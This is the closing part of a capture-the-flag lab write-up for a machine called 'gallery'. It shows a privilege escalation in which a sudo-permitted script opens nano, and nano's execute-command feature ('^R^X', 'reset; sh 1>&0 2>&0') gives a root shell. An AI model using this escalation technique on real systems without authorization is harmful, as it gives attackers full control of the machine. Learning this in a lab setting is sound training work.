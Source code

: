 ```
mike@gallery:~$ cat user.txt
---redacted---
```

> Escalate to the root user

If you run `sudo -l` command, you'll see mike can have sudo permission in `/bin/bash /opt/rootkit.sh`
```
mike@gallery:~$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
Let's see the source code of the rootkit.sh bash script!
```
mike@gallery:~$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Looks like `nano` can be a Privilege Escalation vector!
According to [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo), we can escalate to root user with sudo permission.
```
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
^R^X
reset; sh 1>&0 2>&0

# id
uid=0(root) gid=0(root) groups=0(root)
```
Oh! I'm root now:D
Let's cat the root flag out and done!
```
# cat /root/root.txt
---redacted---
```

# Conclusion
That's it for this room! I hope you guys are enjoyed this writeup! Since this is my first writeup, so if you have any suggestions for my writeup, please feel free to contact me via my email, siunam321atcybersec@gmail.com.